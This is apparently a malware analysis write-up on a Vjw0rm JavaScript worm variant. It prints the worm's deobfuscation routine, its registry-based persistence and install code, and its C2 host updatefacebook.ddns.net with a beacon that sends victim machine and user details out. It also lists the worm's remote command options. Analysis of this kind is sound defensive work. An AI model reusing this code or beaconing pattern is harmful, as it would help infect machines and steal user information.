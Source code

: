 # Mr. Robot Variant of Vjw0rm


I was monitoring `Any.Run` when a `.js` file peeked my interest due to the limited network traffic.

# Analysis

`Metadata:`
- Name: `1.js`
- MD5 : `3f438e857c45a4812dbfa331fd3b8011`

The first stage decrypts a long Unicode string then calls `eval` on its result as seen in _Figure 1_.

```js
function y(o,h) {
    var t;var s="";
    var d=(o+"").split("");
    for (var i=0;i<d.length;i++){
        t=d[i].charCodeAt(0);
        s+=String.fromCharCode(256-+t+(+h));
    }
    return s;
}
WScript.Sleep(10000);
eval("eval(y(\"<long_unicode_string>\"");
```
_Figure 1: Deobfuscation routine_

When threat actor(s) use `eval`, most of the time I can easily bypass this with replacing it with `console.log` and using `nodejs` to do the heavy lifting for us.

In our case here this is exactily what I did with removing the sleep and replacing `eval` with `console.log`.

After the script is run with modifications it is possible to obtain the pseudo deobfuscated code.

This means that the contents are still obfuscated to make it difficult for reading however we can identify some key functionality.

In this case most of the strings are stored in an array with the variable `_0x4ba2`.

This will have to be deobfuscated by hand as seen in _Figure 2_.

```js
try {
	U = sh[_0xb4af('0xd')](g[2]);
} catch (_0x55fd01) {
	var sv = fu[_0xb4af('0xe')]('\\');
	if (':\\' + sv[1] == ':\\' + wn) {
		U = _0xb4af('0xf');
		sh['RegWrite'](g[2], U, g[5]);
	} else {
		U = _0xb4af('0x10');
		sh[_0xb4af('0x11')](g[2], U, g[5]);
	}
}
Ns();
```
_Figure 2: Obfuscated result_

To achieve this I renamed the variable and simplified the code so its easily human readable.

`Vjw0rm` will first check for the registry key `HKCU\\vjw0rm` if the value is `TRUE` or `FALSE` to determine if the machine is already infected or not and will then run the `Install()` routine as seen in _Figure 3_.

```js
try{
	is_installed = sh['RegRead']('HKCU\\vjw0rm');
} catch(_0x55fd01){
	var sv = fu['split']('\x5c');
	if(':\x5c' + sv[0x1] == ':\x5c' + script_name){
		is_installed = 'TRUE';
		sh['RegWrite']('HKCU\\vjw0rm', is_installed, 'REG_SZ');
	} else{
		is_installed = 'FALSE';
		sh['RegWrite']('HKCU\\vjw0rm', is_installed, 'REG_SZ');
	}
}
Install();
```
_Figure 3: Check if installed_

The install routine will copy the script to the `%TEMP%` directory then establish persistence by setting the registry key `HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run\\WEW2BF0U0A` with the value being the path to `vjw0rm` as seen in _Figure 4_.

```js
function Install(){
	var worm_file = GetEnv('TEMP') + char_backslash + script_name;
	try{
		fs['CopyFile'](fu, worm_file, !![]);
	} catch(_0x349bb9){}
	try{
		sh['RegWrite']('HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run\\WEW2BF0U0A', '\x22' + worm_file + '\x22', 'REG_SZ');
	}catch(_0x58ded7){}
	try{
		var shell_app = GetActiveXObject(ACTIVEX_OBJECT_SHELL_APPLICATION);
		fs['CopyFile'](fu, shell_app['NameSpace'](0x7)['Self']['Path'] + '\x5c' + script_name, !![]);
	}catch(_0x151660){}
}
```
_Figure 4: Vjw0rm Persistence / Installation_

After installation has completed it will send a HTTP POST request to the C2 server `updatefacebook.ddns.net:6`.

Information of the victim machiine will be supplied to the C2 server by providing it in the `User-Agent` header.

The traffic will look like the following:

```http
POST /Vre HTTP/1.1
Host: updatefacebook.ddns.net:6
User-Agent: MR_ROBOT_18d0-EEF8\COMPUTER-NAME\USERNAME\caption\FullName\\TRUE\TRUE\
```

The `User-Agent` contains the campaign prefix, drive id, computer-name, username, caption, full name, TRUE/FALSE (if visual basic compiler present), TRUE/FALSE (if Vjw0rm is installed).

This variant has several command options, `Sc` (write file to disk and run it), `Ex` (run additional JSCript code), `Rn` (rename the UUID), `Up` (Run code w/ WScript), and `RF` (run file).

Analysis files for this sample can be downloaded [here](/samples/2020-02-01-vjw0rm.zip).

The password to all ZIP archives on this site is `infected`.

Thank you,

# References
- [Any.Run](https://app.any.run/tasks/8953f3c1-6058-46ec-b3f4-03b46d3c39f9/)
- [VirusTotal](https://www.virustotal.com/gui/file/ea59411c081c6fa100b6d57f1dfa06221834dd22243272e8fd450e89655b0d49/detection)

